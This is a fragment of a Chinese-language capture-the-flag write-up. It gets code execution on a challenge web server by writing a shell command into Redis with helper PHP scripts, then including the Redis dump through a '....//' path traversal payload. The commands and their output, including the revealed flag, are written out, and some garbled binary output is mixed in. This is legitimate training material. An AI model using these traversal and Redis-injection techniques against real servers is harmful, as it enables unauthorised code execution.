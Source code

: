 ```
sys
tmp
usr
var
�.� z^�                        </div>
...
```

重新做一遍類似的事情，把 shell command 換生成 `cat /flag_LgqcHFhUFlwEmZ6jZ1zMzqfasc8SjaSw` ，應該就能拿到 flag 了：
```bash
user@kali:~$ php base64.php `php redis.php "cat /flag_LgqcHFhUFlwEmZ6jZ1zMzqfasc8SjaSw"`
+OK
+OK
+OK
+OK
+OK
+OK
user@kali:~$ php base64.php http://base64image.splitline.tw:8894/?page=....//....//....//....///tmp/lol

...
<div class="content article-body">
                            REDIS0009�	redis-ver5.0.3�
redis-bits�@�ctime-�_used-mem�`�
                                aof-preamble���shell=FLAG{data:text/flag;r3d1s-s3rv3r}
�����Wff                        </div>

...
```

更新：Null byte injection is fixed in PHP > 5.3 ([source](https://bugs.php.net/bug.php?id=39863))
